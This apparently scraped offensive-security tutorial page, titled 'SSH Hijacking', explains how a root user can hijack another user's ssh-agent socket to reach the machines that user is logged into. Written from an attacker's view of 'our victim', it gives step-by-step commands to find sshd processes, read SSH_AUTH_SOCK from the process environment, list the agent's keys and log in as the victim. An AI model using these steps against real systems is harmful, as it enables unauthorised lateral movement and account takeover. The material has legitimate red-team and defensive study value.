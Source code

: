 # SSH Hijacking

If we are root on a system, we can compromise an active SSH session to another machine via public key authentication. We can either compromise the SSH agent or gain access to the SSH agent’s unix domain socket and hijack the connection.

ssh-agent creates a unix domain socket, and then listens for connections from the sshd daemon to this socket. Based on the permissions of this socket, any of the authentication keys that are used by the socket can be compromised to any user who can connect to the socket.

To perform this:

First determine the SSH process ID:

```
ps aux | grep sshd
```

Then find the SSH\_AUTH\_SOCK environment variable for the sshd

```
grep SSH_AUTH_SOCK /proc//environ
```

Then hijack the ssh-agent socket:

```
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXX/agent.XXXX ssh-add –l
```

Finally, we can log into the remote system our victim is logged into:

```
ssh remotesystem -l victim
```
